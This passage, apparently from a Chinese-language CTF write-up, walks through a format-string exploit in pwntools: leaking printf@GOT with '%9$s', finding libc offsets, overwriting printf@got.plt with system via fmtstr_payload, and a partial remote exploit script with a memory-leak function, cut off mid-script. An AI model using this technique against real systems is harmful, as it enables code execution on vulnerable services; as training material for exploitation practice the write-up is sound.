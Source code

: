 #### 泄露 printf 函数的地址

构造方法同上，但不需要接收 2 字节垃圾数据：

```python
payload = "%9$sskye" + p32(printf_got_plt)
p.sendline(payload)
p.recvuntil('right:')
printf_got = u32(p.recv(4))
```

#### 泄露 libc 基址& system 地址

题目没有给出 libc 。从泄露出来的 printf@got 去 libcdatabase 查询其他函数偏移。

```
printf:0x00049670
system:0x0003ada0
```

#### 任意写修改 printf@got.plt

```python
payload = fmtstr_payload(7, {printf_got_plt: system_addr})
p.sendline(payload)
```

### exp

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
# @Author  : MrSkYe
# @Email   : skye231@foxmail.com
# @File    : leakmemory_remote.py
from pwn import *
import binascii
context.log_level = 'debug'
p = remote('127.0.0.1',10001)

def leak(addr):
    payload = "%9$s.TMP" + p32(addr)
    p.sendline(payload)
    print "leaking:", hex(addr)
    p.recvuntil('right:')
    resp = p.recvuntil(".TMP")
    ret = resp[:-4:]
    print "ret:", binascii.hexlify(ret), len(ret)
    remain = p.recvrepeat(0.2)
    return ret

printf_plt = 0x8048490

# name
p.recv()
p.sendline('nameaaa')
p.recv()

# leak printf@got.plt
payload = "%9$sskye" + p32(printf_plt)
p.sendline(payload)
# \xff\x25 junk code
p.recvuntil('right:\xff\x25')
printf_got_plt = u32(p.recv(4))
log.info("printf_got_plt:"+hex(printf_got_plt))

# leak printf@got
```